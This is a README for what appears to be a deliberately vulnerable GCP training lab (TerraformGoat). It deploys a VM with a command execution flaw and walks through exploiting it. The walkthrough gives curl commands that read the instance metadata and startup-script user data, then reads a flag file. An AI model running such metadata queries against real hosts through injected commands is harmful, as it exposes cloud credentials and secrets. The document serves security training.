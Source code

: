 # GCP VM Command Execution Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the GCP VM command execution vulnerability environment.

After building the environment with Terraform, users can obtain metadata and user data and other information on VM through the command execution vulnerabilities.

## Deployment Environment

Perform gcp authentication with the following command, generate a key file at [service account](https://console.cloud.google.com/projectselector2/iam-admin/serviceaccounts?supportedpurview=project), and copy the key to Authentication in the container

```shell
docker cp key.json terraformgoat:/terraformgoat # run on the host
docker exec -it terraformgoat /bin/bash  # run on the host
gcloud auth activate-service-account --key-file key.json # run on the container
```

Execute the following command in the container

```shell
cd /TerraformGoat/gcp/vm/vm_command_execution
```

Edit the `terraform.tfvars` file and fill in the file with your `gcp project id`

```shell
vim terraform.tfvars
```

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

![img](../../../images/1652174499.png)

After the environment is set up, You can see the access address of the scenario at Outputs, then access to the browser.

> Because the scenario takes some time to build, if your browser cannot access this site, you can wait a few minutes and access it again.

## Vulnerability Utilization

On VM with command execution vulnerabilities, we can use command execution to get VM metadata, user data and other information.

read metadata

```shell
curl "http://metadata.google.internal/computeMetadata/v1" -H "Metadata-Flavor: Google"
```

![img](../../../images/1652174820.png)

read user data

> The premise is that the target has been configured with user data.

```shell
curl "http://metadata.google.internal/computeMetadata/v1/instance/attributes/startup-script" -H "Metadata-Flavor: Google"
```

![img](../../../images/1652175230.png)

In the user data information, you can see that there is a flag file in the root directory of the scenario, try to use  command execution to read this file.

```shell
cat /flag69152201.txt
```

![img](../../../images/1652094243.png)

Successfully read the flag file.

## Destroy the environment

```shell
terraform destroy
```
